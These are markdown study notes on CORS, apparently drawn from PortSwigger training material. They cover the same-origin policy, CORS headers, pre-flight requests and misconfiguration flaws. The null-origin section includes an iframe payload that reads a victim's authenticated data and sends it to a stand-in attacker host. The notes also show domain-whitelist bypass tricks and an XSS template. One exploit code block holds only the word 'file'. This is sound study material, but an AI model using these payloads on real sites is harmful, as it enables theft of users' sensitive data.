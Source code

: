 - browser mechanism that enables controlled access to resources located outside of a given domain
	- adds flexibility to the same-origin policy 
- **CORS enables servers to define who can access their assets** and **which HTTP request methods are permitted** from external sources.
- potential for cross-domain attacks
# Same-Origin Policy 
- **server requesting** a resource and the server hosting the **resource** must share from the same protocol, domain name and port 
	![](../../images/same_origin_policy.png)
# `Access-Control-Allow-Origin` Header
- identifies the permitted origin of the request
1. following cross-domain request from `normal-website.com`
	```
	GET /data HTTP/1.1
	Host: robust-website.com
	Origin : https://normal-website.com
	```
2. the server on `robust-website.com` returns the following response:
	```
	HTTP/1.1 200 OK
	...
	Access-Control-Allow-Origin: https://normal-website.com
	```
- cannot use the wildcard `*` with cross-origin transfer of credentials
# `Access-Control-Allow-Credentials` Header
- cross-domain server can permit reading of the response when credentials are passed to it by setting `Access-Control-Allow-Credentials` header to `true`
	- credentials can be cookies, `Authorization` headers etc.
1. if cookies sent with the request:
	```
	GET /data HTTP/1.1
	Host: robust-website.com
	...
	Origin: https://normal-website.com
	Cookie: JSESSIONID=<value>
	```
2. and the response to the request is:
	```
	HTTP/1.1 200 OK
	...
	Access-Control-Allow-Origin: https://normal-website.com
	Access-Control-Allow-Credentials: true
	```
browser will permit the requesting website to read the response as the header is set to `true`
# Pre-Flight Checks
- was added to the CORS specification to protect legacy resources from the expanded request options allowed by CORS
- when initiating a cross-domain request under specific conditions, such as using a **non-standard HTTP method** (anything other than HEAD, GET, POST), introducing new **headers**, or employing a special **Content-Type header value**, a pre-flight request may be required which leverages the `OPTIONS` method
consider the following illustration of a pre-flight request aimed at employing the `PUT` method along with a custom header named `Special-Request-Header`:
```
OPTIONS /info HTTP/1.1
Host: example2.com
...
Origin: https://example.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: Authorization
```
in response, the server might return headers indicating the accepted methods, the allowed origin, and other CORS policy details, as shown below:
```
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Authorization
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```
# Vulnerabilities Arising From CORS Configuration Issues
## Server-Generated ACAO Header From Client-Specified Origin Header
- some applications take the easy route of effectively allowing access to any other domain
	- one way this is done is my reading the `Origin` header from requests and reflecting in the ACAO header which indicates that the requesting origin is allowed
1. if an application receives the following request:
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
2. it then responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```
- the response indicates that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin request can include credentials, so it will be processed
- this means that any domain can access resources from the vulnerable domain - if the response contains sensitive information (API key or CSRF token), can retrieve by placing the following script in your website:
```html
file
```
Lab: [CORS vulnerability with basic origin reflection](../../../../writeups/portswigger/CORS%20vulnerability%20with%20basic%20origin%20reflection.md)
# Error Parsing Origin Headers
- some applications use a whitelist of allowed origins 
	- when a CORS request is received, the supplied origin is compared to the whitelist 
	- if the origin appears in the whitelist it is reflected in the ACAO header
- can have misconfigurations in whitelists
- for example, suppose an application grants access to all domains ending in:
	`normal-website.com`
- an attacker might be able to gain access by registering the domain:
	`hackersnormal-website.com`
- alternatively, suppose an application grants access to all domains beginning with
	`normal-website.com`
- an attacker might be able to gain access using the domain:
	`normal-website.com.evil-user.net`
## Whitelisted `null` Origin Value
1. some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-origin request:
	```
	GET /sensitive-victim-data
	Host: vulnerable-website.com
	Origin: null
	```
2. and the server responds with:
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: null
	Access-Control-Allow-Credentials: true
	```
3. attacker can generate various tricks to generate CORS containing `null`
	- can use `iframe`:
		```html
		<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','vulnerable-website.com/sensitive-victim-data',true);
		req.withCredentials = true;
		req.send();
		
		function reqListener() {
		location='malicious-website.com/log?key='+this.responseText;
		};
		</script>"></iframe>
		```
		- the above script generates a `null` origin header to allow the request to go through
# Exploiting XSS Via CORS Trust Relationships
- if website trusts origin that is vulnerable to XSS, then attacker can exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive info 
1. given the following request:
	```
	GET /api/requestApiKey HTTP/1.1
	Host: vulnerable-website.com
	Origin: https://subdomain.vulnerable-website.com
	Cookie: sessionid=...
	```
2. if the server responds with:
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
	Access-Control-Allow-Credentials: true
	```
3. then an attacker who finds an XSS vulnerability on subdomain.vulnerable-website.com could use that to retrieve the API key, using a URL like:
	`https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`
	![](../../images/cors_with_xss.png)
# Breaking TLS With Poorly Configured CORS 
![](../../images/cors_with_mitm.png)
